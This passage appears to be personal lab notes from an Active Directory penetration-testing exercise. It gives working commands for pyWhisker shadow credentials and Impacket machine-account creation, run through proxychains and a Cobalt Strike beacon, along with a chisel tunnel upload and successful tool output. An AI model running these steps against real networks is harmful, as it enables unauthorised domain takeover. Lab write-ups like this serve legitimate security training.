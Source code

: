 This ticket can then be used with Pass-the-Ticket, and could grant access to the file system of the TARGETCOMPUTER.

###### didnt use this
Shadow Credentials attack
To abuse this privilege, use pyWhisker.
```powershell
pywhisker.py -d "domain.local" -u "controlledAccount" -p "somepassword" --target "targetAccount" --action "add"
```
For other optional parameters, view the pyWhisker documentation.

# My Linux Abuse
- The IP address for the `DC02` was found [[DC01 Domain bloodhound dump]]
step 1:
add a new attacker-controlled computer account can be added with Impact's addcomputer.py example script
- cam said probably dont need -domain-netbios but will need dc-ip option
- ran this command through a `cobaltstrike` socks proxy but is very slow (screenshot below) hang for around 15 minutes
```powershell
proxychains addcomputer.py -method LDAPS -computer-name 'ATTACKERSYSTEM$' -computer-pass 'bugserjumper1337!' -dc-host 'DC02@DEV.ADMIN.OFFSHORE.COM' -dc-ip 172.16.2.6 'DEV.ADMIN.OFFSHORE.COM/joe:'
```
![[Pasted image 20240111112440.png]]
Going to transition to a `cisel_64.exe` proxy
utilized this command to upload `chisel_64.exe` - 
```powershell
beacon> upload /opt/chisel/chisel_64.exe (c:\windows\tasks\chisel_64.exe)
```
![[Pasted image 20240111112341.png]]
```powershell
[root💀/opt/cobaltstrike] [10.10.14.39] [2024-01-11 10:42:38] 
 └─╼ # proxychains addcomputer.py -method LDAPS -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-host $DomainController -domain-netbios $DOMAIN 'domain/user:password'
```
chisel client setup
![[Pasted image 20240111113238.png]]
chisel server
![[Pasted image 20240111113310.png]]
impacket error command
We now need to configure the target object so that the attacker-controlled computer can delegate to it. Impacket's rbcd.py script can be used for that purpose:
![[Pasted image 20240111113345.png]]
the reason it was erroring is because `LDAPS` requires SSL and I dont believe that you are able to do `SSL` over `proxychains`
```powershell
┌──(root💀gobots)-[12Jan2024 16:25:19]-[~/SUT/offshore]
└─# proxychains -q impacket-addcomputer -method SAMR -computer-name 'DEFENSESYSTEM$' -computer-pass 'bugserjumper1337!' -dc-host 'DC02@DEV.ADMIN.OFFSHORE.COM' -dc-ip 172.16.2.6 'DEV.ADMIN.OFFSHORE.COM/joe:'
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
[*] Successfully added machine account DEFENSESYSTEM$ with password bugserjumper1337!.

```
![[Pasted image 20240112162710.png]]
edit the `/etc/hosts` config
![[Pasted image 20240112163058.png]]